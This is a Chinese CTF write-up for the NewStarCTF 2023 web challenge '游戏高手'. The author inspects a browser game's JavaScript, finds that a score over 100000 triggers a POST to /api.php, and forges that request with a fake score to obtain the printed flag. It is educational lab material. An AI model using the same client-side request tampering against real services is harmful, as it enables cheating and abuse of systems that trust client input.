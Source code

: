 ```yaml
---
title: NewStarCTF 2023 游戏高手
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

打开靶机网页，看到如下界面

![](https://z1.ax1x.com/2023/10/09/pPvf4KK.png)

~~方法很简单，打到 100000 分后紫砂~~

这种直接开 F12 看一下网页源码

![](https://z1.ax1x.com/2023/10/09/pPvf5DO.png)

发现了有用的 JS 代码 `app_v2.js`

我们进入 `app_v2.js`，发现都是些乱七八糟的游戏代码，感觉没啥卵用

![](https://z1.ax1x.com/2023/10/09/pPvfxr8.png)

## 找到 100000

我们在 JS 代码界面按 Ctrl + F，搜索 100000，发现了有用的东西

```js
function gameover(){
    if(gameScore > 100000){
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "/api.php", true);
        xhr.setRequestHeader("Content-Type", "application/json");
        xhr.onreadystatechange = function() {
        if (xhr.readyState === 4 && xhr.status === 200) {
            var response = JSON.parse(xhr.responseText);
            alert(response.message);
        }
        };
        var data = {
            score: gameScore,
        };
        xhr.send(JSON.stringify(data));
    }
	alert("鎴愮哗锛�"+gameScore);
	gameScore=0;  
	curPhase =PHASE_READY;  
	hero = null;
	hero = new Hero();  	    
}
```

发现他要往 `/api.php` POST 一条数据，而且也只会在 `gameScore > 100000` 的时候触发，这条数据就是上面的 `data` 变量，也就是说，我们只需要按照 JSON 的格式 POST 这么一条数据即可

```json
{
    "score": 110000
}
```

## 编写 Http 请求

于是最终我们的 Http 请求代码如下

```http
POST /api.php HTTP/1.1
Host: fa83b0e0-1558-4a81-b193-46146126ebd0.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Content-Type: application/json
Accept: */*
Host: fa83b0e0-1558-4a81-b193-46146126ebd0.node4.buuoj.cn:81
Connection: keep-alive
Content-Length: 25

{
    "score": 110000
}
```

发送请求后，得到 Flag 为 `flag{7ff501e2-a739-4e88-ad35-ae4d2857ba09}`